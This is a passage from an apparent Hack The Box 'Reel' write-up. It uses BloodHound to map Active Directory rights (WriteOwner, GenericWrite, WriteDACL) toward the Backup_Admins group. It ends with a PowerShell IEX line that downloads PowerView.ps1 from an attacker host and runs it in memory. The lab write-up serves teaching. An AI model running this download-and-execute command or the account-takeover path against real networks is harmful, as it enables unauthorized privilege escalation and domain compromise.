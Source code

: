 After that we can start Bloodhound and login with the credentials we entered and we are in. Now we can drag the .zip file we generated with SharpHound into it.

### Analyzing BloodHound

We can see that _Tom_ and _Nico_ are group members of **Print Operators** and this group has a path to _Administrator_:

![Shortest Paths to High Value Targets](https://kyuu-ji.github.io/htb-write-up/reel/BH_query_1.png)

This is no direct path, so we need to look for groups we care about and that BloodHound just doesn't know. If we look at the groups of the users manually, we see the group **Backup_Admins** that we need to query in BloodHound.
```markdown
net groups /domain
```

If we execute the function in SharpHound with the parameters that it should collect all information, we get more results to analyze:
```powershell
Invoke-Bloodhound -CollectionMethod All
```

Now the same query as last time has a lot more information:

![Shortest Paths to High Value Targets with CollectionMethod All](https://kyuu-ji.github.io/htb-write-up/reel/BH_query_2.png)

If we query for a path from **NICO@HTB.LOCAL** to **BACKUP_ADMINS@HTB.LOCAL** we get see that Nico has _WriteOwner_ permissions to **Herman@htb.local** who has _GenericWrite_ and _WriteDacl_ to the Backup_Admins group:

![Nico to Backup_Admins group](https://kyuu-ji.github.io/htb-write-up/reel/BH_query_3.png)

And the same is true for _Tom_ to **Claire@htb.local**:

![Tom to Backup_Admins group](https://kyuu-ji.github.io/htb-write-up/reel/BH_query_4.png)

All Active Directory privileges are explained on [ADSecurity.org](https://adsecurity.org/?p=3658).

- WriteOwner: Provides the ability to take ownership of an object. The owner of an object can gain full control rights on the object
- GenericWrite: Provides write access to all properties
- WriteDACL: Provides the ability to modify security on an object which can lead to Full Control of the object

This means we can take ownership with Nico / Tom of the Herman / Claire account and change the password and with that user we can take full control over the Backup_Admins group.


### Exploiting Active Directory

To exploit that permissions in AD we start the script **PoverView.ps1** from the **PowerSploit** script collection framework which you can find in Toms desktop folder, but I am going to upload it from my local machine.
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23/PowerView.ps1')
```
